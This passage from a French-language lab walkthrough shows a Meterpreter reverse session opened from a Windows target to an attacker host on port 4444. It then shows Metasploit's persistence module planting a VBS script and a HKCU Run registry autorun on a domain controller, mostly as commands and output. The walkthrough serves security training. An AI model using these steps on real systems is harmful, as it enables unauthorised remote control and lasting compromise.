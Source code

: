 #### Exécution du payload

Sur la machine Windows cible, exécutez le fichier `shell.exe`.

**Résultat sur la machine attaquante :**

```bash
[*] Sending stage (175686 bytes) to 10.10.52.67
[*] Meterpreter session 1 opened (10.10.43.133:4444 -> 10.10.52.67:51040)

meterpreter >
```

---

#### Configuration du module Persistence

**Chargement du module :**

```bash
meterpreter > background
[*] Backgrounding session 1...

msf6 > use exploit/windows/local/persistence

msf6 exploit(windows/local/persistence) > show options

Module options (exploit/windows/local/persistence):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DELAY     10               yes       Delay in seconds for persistent payload to run
   EXE_NAME                   no        Executable name
   PATH                       no        Path to write payload
   REG_NAME                   no        Registry key name
   SESSION                    yes       The session to run this module on
   STARTUP   USER             yes       Startup type for persistent payload
   VBS_NAME                   no        VBS file name
```

**Configuration et exécution :**

```bash
msf6 exploit(windows/local/persistence) > set SESSION 1
SESSION => 1

msf6 exploit(windows/local/persistence) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                 Connection
  --  ----  ----                     -----------                                 ----------
  1         meterpreter x86/windows  CONTROLLER\Administrator @ DOMAIN-CONTROLL  10.10.43.133:4444 -> 10.10.52.67:51040

msf6 exploit(windows/local/persistence) > run

[*] Running persistent module against DOMAIN-CONTROLL via session ID: 1
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\YxIEZTyvWunr.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\HJvDPa
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\HJvDPa
[*] Clean up Meterpreter RC file: /home/omnimessie/.msf4/logs/persistence/DOMAIN-CONTROLL_20251018.2128/DOMAIN-CONTROLL_20251018.2128.rc
```
